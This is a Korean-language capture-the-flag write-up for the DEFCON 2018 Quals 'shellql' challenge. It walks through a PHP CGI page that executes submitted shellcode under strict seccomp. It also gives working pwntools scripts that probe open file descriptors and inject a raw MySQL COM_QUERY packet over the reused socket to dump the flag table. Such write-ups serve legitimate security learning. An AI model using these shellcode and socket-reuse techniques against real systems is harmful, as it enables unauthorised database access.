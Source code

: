 ```yaml
---
layout: post
title: shellql
category: Pwnable
source: "DEFCON CTF 2018 Quals."
rpath: /resource/shellql
tag: [mysql, shellcode, cgi, COM_QUERY]
---
```


**Category**: Pwnable

**Source**: DEFCON CTF 2018 Quals.

**Points**: 118

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Do you even SQL? The flag is in the table `flag`
> 
> http://ssat-ps.iptime.org:5103
> 
> [download]({{site.github.master}}{{page.rpath}}/shellme.so)

## Write-up

(*. 문제 환경을 재구성하여 풀이하였습니다.)

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

문제 사이트에 접속하면 shell을 입력하라고 한다. 뭘 입력해야 할지 모르겠는데, **debug me** 메뉴가 있으니 들어가보자.

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

php-cgi [소스 코드]({{site.github.master}}{{page.rpath}}/index.php)가 보인다. 우선 shellql database에 연결을 만들고, 내가 보낸 shell을 shellme() 함수를 통해 호출하는 간단한 코드이다.

cgi니까 shelle() 함수는 첨부된 shellme.so 파일에 정의되어 있을 것 같다. IDA로 shellme.so를 열어보자.

```c
Php::Value *__fastcall shellme(Php::Value *this, __int64 *a2)
{
  __int64 v2; // rsi
  void *src; // [rsp+0h] [rbp-48h]
  __int64 v5; // [rsp+10h] [rbp-38h]
  unsigned __int64 v6; // [rsp+28h] [rbp-20h]

  v2 = *a2;
  v6 = __readfsqword(0x28u);
  ZNK3Php5Value11stringValueB5cxx11Ev(&src, v2);
  j_shell_this(src);
  Php::Value::Value(this, 1);
  if ( src != &v5 )
    operator delete(src);
  return this;
}

__int64 __fastcall j_shell_this(void *src)
{
  return shell_this(src);
}

__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

shellme() 함수는 php에서 넘어온 파라미터를 이용하여 argument로 전달된 shell string을 복구하고 j_shell_this() 함수로 넘기는데, j_shell_this() 함수는 그냥 shell_this() 함수를 호출하는 함수이다.

shell_this() 함수는 mmap으로 메모리 구역을 설정한 후 전달받은 데이터를 복사해넣고 해당 메모리를 호출하여 실행한다.

참고로, mmap()은 아래와 같은 모양을 하고 있다.

```
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

메모리의 적당한 영역에 v1(src 길이)만큼의 메모리를 할당하고, RWX 권한을 부여하는데 flags는 MAP_ANONYMOUS | MAP_PRIVATE로 설정하여 다른 프로세스와 공유되지 않도록 하였다. (MAP_ANONYMOUS라서 fd는 -1, offset은 0이다.)

prctl() 함수는 SECCOMP를 걸어주는 함수인데, prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)이 걸려있다. 이 모드에서는 read()/write()/exit()/sigret() syscall만 사용할 수 있다고 한다.

SECCOMP 제약만 만족하는 shellcode를 써주면 그대로 실행해주는 함수를 친절하게 제공해주니 shellcode를 잘 쓰면 될 것 같은데, native program에서 mysql을 어떻게 사용할 수 있는지가 문제에서 묻는 내용인 것 같다.

처음에 php-cgi 코드를 봤을 때는 sqli_connect() 함수를 호출하는 라인이 mysql 계정과 database를 알려주기 위해서 작성된거라고 생각해서 c의 mysql connector를 shellcode로 작성하려고 했는데, 보면 볼수록 답이 보이질 않았다.

mysql은 tcp 3306 포트를 통해 서비스 되니, 소켓 통신이 가능할지 살펴보자. php-cgi에서 연결을 만들었으니 소켓이 열려있을 수도 있을 것 같다. linux에서는 파일이건 소켓이건 모두 file로 간주되니, 소켓이 열려있다면 [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)를 사용할 수 있을것이다.

```
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket.
```

알다시피, file descriptor 0, 1, 2번은 예약 되어 있고 보통 순서대로 열리니 3번 부터 write를 시도해보자.

```python
[...]

context(arch='amd64', os='linux')

#URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'
URL = 'http://ssat-ps.iptime.org:5103/cgi-bin/index.php'

print "fd write test(3~9)"
fd = []
for i in range(3, 10):
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += "add eax, 48\n"
	payload += "mov [rsp], rax\n"
	payload += shellcraft.write(1, 'rsp', 1)

	data = {'shell': asm(payload)}

	res = requests.post(URL, data = data)
	if res.text == str(len(msg)):
		print "%d is alive!"%i
		fd.append(i)
```

위 코드는 3번부터 9번 fd까지에 특정 메세지를 write한 후 return value(rax)를 이용해서 write가 성공하는지 확인한다.

처음에는 코드를 제대로 구성한 것 같은데도 http 500 response가 오면서 출력 결과를 확인할 수 없었는데, 찾아보니 cgi 프로그램에서는 가장 먼저 [MIME-type 헤더 출력](https://httpd.apache.org/docs/trunk/ko/howto/cgi.html#writing)이 있어야 한다고 해서 추가해 주었더니 정상적으로 출력을 확인할 수 있었다. (Content-type 없이 그냥 \n 하나만 넣어도 정상동작한다. 그냥 빈 줄 다음에 컨텐츠가 나오는지 확인하는 것 같다.)

![img]({{page.rpath|prepend:site.baseurl}}/writable_ports.png)

코드 실행결과 3번과 4번 fd가 열려 있는 것을 확인할 수 있다.

3번 또는 4번 포트가 mysql 포트라면, query에 대한 response 수신을 위해 read도 가능해야 할 것이다.

위와 동일한 방법으로 write 후에 read도 가능한지 확인해보자.

```python
print "\nfd read test for writable ports"
for i in fd:
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += shellcraft.read(i, 'rsp', 10)
	payload += shellcraft.write(1, 'rsp', 'rax')
	
	data = {'shell': asm(payload)}

	res = requests.post(URL, data=data)
	if len(res.text) > 0:
		print "%d is available."%i
		mysql_port = i
```

![img]({{page.rpath|prepend:site.baseurl}}/readable_ports.png)

3번과 4번 포트 중에 4번 포트만 read가 가능했다. mysql은 4번 포트를 사용할 가능성이 매우 높아 보인다.

이제 4번 포트를 이용해서 mysql query를 날려보자.

[mysql documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_connection_lifecycle.html)에 따르면 mysql protocol은 connection phase - command phase - replication phase가 있다고 한다.

connection phase는 처음 database에 접속하는 과정이며, 이 문제에서는 php-cgi에서 mysqli_connect() 함수가 실행될때 완료된다.

command phase에서는 database에 query를 날리는 과정이다. query를 날릴 때는 [COM_QUERY](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query.html)를 이용한다고 한다. COM_QUERY는 [length | 0x03 | Query] 형식으로 구성되는데 length는 4 byte little endian이란다. (나중에 writeup들을 봤더니 mysql query를 wireshark로 잡아서 COM_QUERY 구조를 알아낸 팀도 있었다.)

```python
print "\nget query result"
msg = "\x03" + "select * from flag"								#COM-QUERY format
msg = p32(len(msg)) + msg
payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
payload += shellcraft.write(mysql_port, msg, len(msg))
payload += shellcraft.read(mysql_port, 'rsp', 200)
payload += shellcraft.write(1, 'rsp', 'rax')

data = {'shell': asm(payload)}

res = requests.post(URL, data=data)
pattern = re.compile(r'OOO{.+}')
print re.search(pattern, res.text).group()
```

shellcraft에서 echo나 write를 할때 rsp를 string buffer로 활용하길래 response도 rsp에 저장하였다. (처음에는 100 바이트만 읽었는데, flag가 짤려서 나왔다.) res.text 전체를 print하면 여러 지저분한 값들이 많이 나오는데, 아마 COM_QUERY에 대한 응답 형식일 것 같으나 별 관심은 없어서 flag만 잘라내었다.

여기까지의 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 모두 실행하면 flag를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **OOO{shellcode and webshell is old news, get with the times my friend!}**
